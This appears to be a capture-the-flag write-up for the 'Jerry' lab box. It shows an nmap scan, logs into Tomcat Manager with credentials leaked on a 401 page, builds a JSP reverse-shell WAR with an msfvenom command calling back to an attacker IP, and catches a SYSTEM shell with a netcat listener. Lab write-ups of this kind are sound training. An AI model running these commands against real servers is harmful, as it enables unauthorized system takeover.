




## Overview
Jerry is a Windows Server 2012 R2 box running Apache Tomcat 7.0.88.  The 401 unauthorized error message disclosed the username and password needed to log into the admin utility. Once there I was able to upload a reverse shell in web archive (war) format. Once executed I received a shell as 'nt authority/system'

## Enumeration

**Software**

* Apache Tomcat 7.0.88
* Microsoft Windows Server 2012 R2 Standard 

**Port Scan**
```
nmap -vv -Pn -sT -A -p- 10.10.10.95 -oN /mnt/data/boxes/jerry/_full_tcp_nmap.txt
```

* 8080/tcp

## Steps (user)


## Steps (root/system)

I started by browsing to http://10.10.10.95:8080 which showed the default "If you're seeing this, you've successfully installed Tomcat. Congratulations!" page. I clicked on Server Status and was prompted for a password. After trying default passwords (tomcat/tomcat) without success, I clicked cancel and was shown a 401 unauthorized page.



On that page I noticed an example that referenced a username and password of tomcat/s3cret. I tried that username/password combo and was able to successfully access the Server Status and Manager App pages.



On the Manager App page, there is an option to deploy a WAR file which MSFVenom supports as a payload format.

> A WAR file is a compressed package containing Java-based web components and applications that are run on a web server. It is formatted the same way as a .JAR file, but includes additional information that tells the application server which Java servlet class to run.

I created a reverse shell selecting a java payload and output the file to rshell.war

```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.5 LPORT=4200 -f war > rshell.war
```

I then uploaded rshell.war via the Manager App (http://10.10.10.95:8080/manager/html)

```
Click "Browse"
Browse to rshell.war
Click Deploy
```

/rshell was now listed under applications. I created a reverse netcat listener (nc -lvnp 4200) and clicked the link and received a callback with a shell as 'nt authority\system'




